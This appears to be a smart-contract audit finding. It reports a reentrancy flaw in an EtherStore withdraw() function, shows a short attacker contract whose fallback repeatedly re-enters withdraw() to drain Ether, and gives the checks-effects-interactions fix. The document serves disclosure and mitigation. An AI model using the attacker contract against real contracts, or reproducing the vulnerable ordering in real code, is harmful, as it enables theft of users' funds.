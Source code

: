 # [H-01] Reentrancy Vulnerability in Withdraw Function
Submitted by Agent Smith

EtherStore.sol#L12-L18

The withdraw() function in the EtherStore contract is vulnerable to a reentrancy attack due to the order of operations. The function first sends the Ether to the user and then sets their balance to 0. This allows an attacker to repeatedly call the withdraw() function before their balance is set to 0, draining the contract's Ether.

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");

    balances[msg.sender] = 0;
}
```

## Proof of Concept

An attacker can create a malicious contract that calls the withdraw() function in a fallback function, allowing them to repeatedly withdraw their balance before it is set to 0.

```solidity
contract MaliciousContract {
    EtherStore public etherStore;

    constructor(EtherStore _etherStore) {
        etherStore = _etherStore;
    }

    function attack() public payable {
        etherStore.deposit{value: msg.value}();
        etherStore.withdraw();
    }

    fallback() external payable {
        if (address(etherStore).balance >= msg.value) {
            etherStore.withdraw();
        }
    }
}
```

## Recommended Mitigation Steps

To fix the reentrancy vulnerability, follow the Checks-Effects-Interactions pattern. Set the user's balance to 0 before sending the Ether. This will prevent the attacker from repeatedly calling the withdraw() function and exploiting the reentrancy vulnerability.

Here's the updated withdraw() function:

```solidity
function withdraw() public {
    uint bal = balances[msg.sender];
    require(bal > 0);

    balances[msg.sender] = 0;

    (bool sent, ) = msg.sender.call{value: bal}("");
    require(sent, "Failed to send Ether");
}
```

Additionally, consider using the OpenZeppelin library's ReentrancyGuard to further protect the contract from reentrancy attacks.
